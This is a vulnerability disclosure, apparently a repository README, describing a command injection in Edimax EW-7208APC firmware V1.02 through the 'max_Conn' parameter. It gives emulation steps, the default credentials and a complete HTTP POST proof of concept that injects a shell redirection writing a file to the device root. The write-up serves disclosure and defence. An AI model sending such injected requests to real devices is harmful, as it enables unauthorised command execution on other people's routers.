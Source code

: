 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'max_Conn'` parameter in the 'formConnectionSetting' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formConnectionSetting' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters 'max_Conn'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formConnectionSetting HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 36
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1  
  
max_Conn=max_Conn>/poc.txt;&timeOut=200
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)
